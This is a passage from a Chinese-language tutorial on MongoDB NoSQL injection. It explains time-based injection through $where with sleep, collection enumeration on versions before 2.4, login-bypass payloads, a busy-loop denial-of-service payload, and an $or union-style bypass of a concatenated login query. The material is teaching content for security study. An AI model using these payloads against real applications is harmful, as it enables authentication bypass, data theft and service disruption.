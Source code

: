 构造延迟：

```php
db.users.find({ $where: "function(){return(this.username == 'a'; sleep(5000))}" })
```

**MongoDB 2.4 之前**

在 MongoDB 2.4 之前，通过`$where`?操作符使用?`map-reduce`、`group`命令可以访问到 Mongo Shell 中的全局函数和属性，如`db`，也就是说可以通过自定义 JavaScript 函数来获取数据库的所有信息。

如下所示，发送以下数据后，如果有回显的话将获取当前数据库下所有的集合名：

```php
username=1&password=1';(function(){return(tojson(db.getCollectionNames()))})();var a='1
```

**MongoDB 2.4 之后**

MongoDB 2.4 之后`db`属性访问不到了，但我们应然可以构造万能密码。如果此时我们发送以下这几种数据：

```php
username=1&password=1';return true//
或
username=1&password=1';return true;var a='1
```

也是可以查出所有信息的，DOS的一个playload：

```php
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```

也就是一直循环

### 1.5.3 联合查询注入

假设后端的 MongoDB 查询语句使用了字符串拼接：

```php
string query ="{ username: '" + $username + "', password: '" + $password + "' }"
```

当用户正确的用户名密码进行登录时，得到的查询语句是应该这样的：

```php
{'username':'admin', 'password':'123456'}
```

如果此时没有很好地对用户的输入进行过滤或者效验，那攻击者便可以构造如下 payload：

```php
username=admin', $or: [ {}, {'a': 'a&password=' }], $comment: '123456
```

拼接入查询语句后相当于执行了：

```php
{ username: 'admin', $or: [ {}, {'a':'a', password: '' }], $comment: '123456'}
```

此时，只要用户名是正确的，这个查询就可以成功。这种手法和 SQL 注入比较相似：
